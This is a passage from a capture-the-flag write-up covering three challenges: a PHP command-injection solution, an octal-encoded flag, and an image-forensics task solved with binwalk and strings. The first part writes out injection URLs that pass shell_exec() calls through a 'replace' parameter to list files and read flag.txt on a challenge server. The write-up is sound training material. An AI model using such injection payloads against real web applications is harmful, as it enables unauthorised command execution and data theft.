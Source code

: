 Get the existing files (`here_we_dont_have_flag index.php`):
```
http://35.198.90.23:30447/?replace=shell_exec("ls")&vector=/Admin/e
```
Get the file type of `here_we_dont_have_flag` (`directory`):
```
http://35.198.90.23:30447/?replace=shell_exec("file here_we_dont_have_flag")&vector=/Admin/e
```
Get the files from `here_we_dont_have_flag` (`flag.txt`):
```
http://35.198.90.23:30447/?replace=shell_exec("ls here_we_dont_have_flag/")&vector=/Admin/e
```
Get the flag:
```
http://35.198.90.23:30447/?replace=shell_exec("cat here_we_dont_have_flag/flag.txt")&vector=/Admin/e
```

## crazy-number - CTF{972d2068ed1914c5bf8ce44099d14647a53cf3113f8e0210593fd9d691de6724}

The encryption function prints a string in octal.

[Decrypt](http://www.unit-conversion.info/texttools/octal/)
```
103124106173071067062144062060066070145144061071061064143065142146070143145064064060071071144061064066064067141065063143146063061061063146070145060062061060065071063146144071144066071061144145066067062064175
```
and get the flag.

## crossed-pil - ctf{3c7f44ab3f90a097124ecedab70d764348cba286a96ef2eb5456bee7897cc685}

I found a hidden image:
```
binwalk -e image.zip 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, at least v2.0 to extract, uncompressed size: 153442, name: image.png
76            0x4C            PNG image, 200 x 200, 8-bit/color RGBA, non-interlaced
117           0x75            Zlib compressed data, default compression
153371        0x2571B         End of Zip archive, footer length: 22
```

Then I found the python code which generated the image:
```
strings image.png
```
```
import numpy as np
from PIL import Image
import random
img = Image.open('flag.png')
pixels = list(img.getdata())
oioi=[]
for value in pixels:
    oi = []
    for oioioi in value:
        # hate me note for the var names ;)
        if oioioi == 255:
            oioioi = random.choice(range(0, 255, 2))
        else:
            oioioi = random.choice(range(0, 255, 1))
        oi.append(oioioi)
```